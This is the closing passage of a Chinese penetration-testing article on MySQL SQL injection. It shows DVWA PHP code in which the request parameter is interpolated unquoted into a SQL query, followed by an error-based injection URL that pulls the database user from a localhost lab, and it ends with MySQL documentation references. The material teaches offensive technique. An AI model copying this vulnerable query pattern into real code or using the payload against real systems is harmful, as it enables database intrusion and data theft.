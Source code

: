 此外，后端代码中的引用、双引号或括号问题，也会引起注入攻击。举例来说，如果利用DVWA修改PHP代码去掉引号， 无需前面类似的或操作就能进行注入了。

```
<?php   

if(isset($_GET['Submit'])){

    // Retrieve data

    $id = $_GET['id'];

    $getid = "SELECT first_name, last_name FROM users WHERE user_id = $id";
    $result = mysql_query($getid) or die('<pre>' . mysql_error() . '</pre>' );

    $num = mysql_numrows($result);

    $i = 0;

    while ($i < $num) {

        $first = mysql_result($result,$i,"first_name");
        $last = mysql_result($result,$i,"last_name");

        $html .= '<pre>';
        $html .= 'ID: ' . $id . '<br>First name: ' . $first . '<br>Surname: ' . $last;
        $html .= '</pre>';

        $i++;
    }
}
?>

```

<http://localhost/dvwa/vulnerabilities/sqli/?id=!(select*from(select user())a)-0^222 &Submit=Submit#>

![enter image description here](http://drops.javaweb.org/uploads/images/929cf770fcebda8ea737c24b9571e5da314e2347.jpg)

我希望本文对大家的渗透测试工作能够有所帮助。

0x09 参考资料
=========

* * *

[1](http://drops.wooyun.org/wp-content/uploads/2015/08/116.png)[http://dev.mysql.com/doc/refman/5.5/en/integer-types.html](http://dev.mysql.com/doc/refman/5.5/en/integer-types.html)

[2](http://drops.wooyun.org/wp-content/uploads/2015/08/217.png)[https://dev.mysql.com/doc/refman/5.0/en/numeric-type-overview.html](https://dev.mysql.com/doc/refman/5.0/en/numeric-type-overview.html)

[3](http://drops.wooyun.org/wp-content/uploads/2015/08/314.png)[https://dev.mysql.com/doc/refman/5.0/en/mathematical-functions.html](https://dev.mysql.com/doc/refman/5.0/en/mathematical-functions.html)